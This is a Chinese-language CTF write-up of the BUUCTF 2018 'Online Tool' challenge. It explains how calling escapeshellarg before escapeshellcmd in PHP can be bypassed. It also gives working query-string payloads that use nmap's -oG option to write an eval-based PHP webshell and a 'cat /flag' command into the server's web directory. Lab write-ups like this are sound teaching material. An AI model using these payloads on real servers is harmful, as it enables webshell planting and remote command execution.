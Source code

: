 # [[BUUCTF 2018]Online Tool](https://buuoj.cn/challenges#[BUUCTF%202018]Online%20Tool)

## 知识点

- RCE 远程代码执行漏洞
- 漏洞点：`escapeshellarg`和`escapeshellcmd`**顺序**使用

## RCE 远程代码执行漏洞

### 漏洞利用

- 当设备没有在输入口做输入处理，攻击者可以利用`RCE`，直接向后台服务器远程注入操作系统命令或者代码，从而控制后台系统
- 我们常见的路由器、防火墙、入侵检测等设备的`web`管理界面上，一般会给用户提供一个`ping`操作的`web`界面，用户从`web`界面输入目标`IP`，提交后，后台会对该`IP`地址进行一次`ping`测试，并返回测试结果。

### 常用命令

1. 常用系统执行命令
```bash
system() 
passthru()
exec()
shell_exec()
popen()
proc_open()
pcntl_exec()
```
2. 系统命令拼接方式

- `|`：管道符
- `&`：commandA & commandB 先运行命令A，然后运行命令B
- `||`：commandA || commandB 运行命令A，如果失败则运行命令B


## 解题过程

1. 首先观察题目，有个`php`和`RCE`标签
2. 题目给了一段源码   
```php
<?php

if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $_SERVER['REMOTE_ADDR'] = $_SERVER['HTTP_X_FORWARDED_FOR'];   # remote_addr和x_forwarded_for 服务器获取ip用的
}

if(!isset($_GET['host'])) {
    highlight_file(__FILE__);  # __FILE__:脚本根路径,并进行高亮
} else {
    $host = $_GET['host'];
    $host = escapeshellarg($host);
    $host = escapeshellcmd($host);
    $sandbox = md5("glzjin". $_SERVER['REMOTE_ADDR']);
    echo 'you are in sandbox '.$sandbox;
    @mkdir($sandbox);
    chdir($sandbox);
    echo system("nmap -T5 -sT -Pn --host-timeout 2 -F ".$host); # GET方法传递参数值给变量host，通过了两个 escapeshellarg 和 escapeshellcmd 过滤之后，使用system系统命令执行nmap
}
```
3. 整段代码中比较“可疑”的代码就是：
```php
$host = escapeshellarg($host);
$host = escapeshellcmd($host);
```
- `escapeshellarg()`: 将给字符串增加一个单引号并且能引用或者转码任何已经存在的单引号，这样以确保能够直接将一个字符串传入 shell 函数
- `escapeshellcmd()`：对字符串中可能会欺骗 shell 命令执行任意命令的字符进行转义。
    - 会在特殊字符前面插入`\`
    ```
    &
    #
    ;
    `
    |
    *
    ?
    ~
    < >
    ^
    () [] {}
    $
    \
    \x0A   # \r
    \xFF
    ```
    - `'` 和 `"` 仅在不配对的时候被插入`\`。 
    - 在 `Windows` 平台上，`所有这些字符`以及 `%` 和 `!` 字符都会被空格代替
4. 所以如果想要利用`RCE`漏洞，那么就需要绕过`escapeshellarg()`和`escapeshellcmd()`，[详见](http://www.lmxspace.com/2018/07/16/%E8%B0%88%E8%B0%88escapeshellarg%E5%8F%82%E6%95%B0%E7%BB%95%E8%BF%87%E5%92%8C%E6%B3%A8%E5%85%A5%E7%9A%84%E9%97%AE%E9%A2%98/)
5. 输入正常的参数：`?host=127.0.0.1`，返回：
```php
you are in sandbox 4d949dbe7095f734ebd052c1c843d411Starting Nmap 7.70 ( https://nmap.org ) at 2021-12-01 01:46 UTC Nmap scan report for localhost (127.0.0.1) Host is up (0.00045s latency). Not shown: 99 closed ports PORT STATE SERVICE 80/tcp open http Nmap done: 1 IP address (1 host up) scanned in 0.17 seconds Nmap done: 1 IP address (1 host up) scanned in 0.17 seconds
```
- 获取了文件夹：`4d949dbe7095f734ebd052c1c843d411`
6. `namp -oG`：使用这个命令可以将一句话木马加入到文件中
```bash
<?php @eval($_POST["hack"]);?> -oG hack.php
# 将 <?php @eval($_POST["hack"]);?> 写入 hack.php
```
7. 想要真正执行的命令应该为：
```
nmap -T5 -sT -Pn --host-timeout 2 -F 127.0.0.1 <?php @eval($_POST["hack"]);?> -oG hack.php
```
8. `payload`：`?host=<?php @eval($_POST["hack"]);?> -oG hack.php`，语句变为
```
nmap -T5 -sT -Pn --host-timeout 2 -F '\<\?php @eval\(\$_POST\[\"hack\"\]\)\;\?\> -oG hack.php'
```
关键命令变成了一串字符串
9. 所以加上`''`，闭合`'`
10. `payload`：
```
?host=' <?php echo `cat /flag`);?> -oG hack.php '
```
构建成功，在目录：`60c11ec7d871344ad92fb3f119387254`下    

![](./img/目录构建成功.png)       

11. 执行`60c11ec7d871344ad92fb3f119387254/hack.php`     

![](./img/onlinetool获取到flag.png)    

## 参考资料

- [[BUUCTF 2018]Online Tool（超详细解析payload）](https://blog.csdn.net/weixin_44348894/article/details/105520481)
- [Online Tool writeup1](https://www.cnblogs.com/Cl0ud/p/12192230.html)
- [Online Tool writeup2](https://blog.csdn.net/qq_26406447/article/details/100711933)
- [RCE(远程代码执行漏洞)原理及漏洞利用](https://blog.csdn.net/weixin_46706771/article/details/118893434)
- [利用/绕过 PHP escapeshellarg/escapeshellcmd函数](https://www.anquanke.com/post/id/107336)
- [谈谈escapeshellarg参数绕过和注入的问题](http://www.lmxspace.com/2018/07/16/%E8%B0%88%E8%B0%88escapeshellarg%E5%8F%82%E6%95%B0%E7%BB%95%E8%BF%87%E5%92%8C%E6%B3%A8%E5%85%A5%E7%9A%84%E9%97%AE%E9%A2%98/)
- [Webshell和一句话木马](https://www.cnblogs.com/csnd/p/11807741.html)
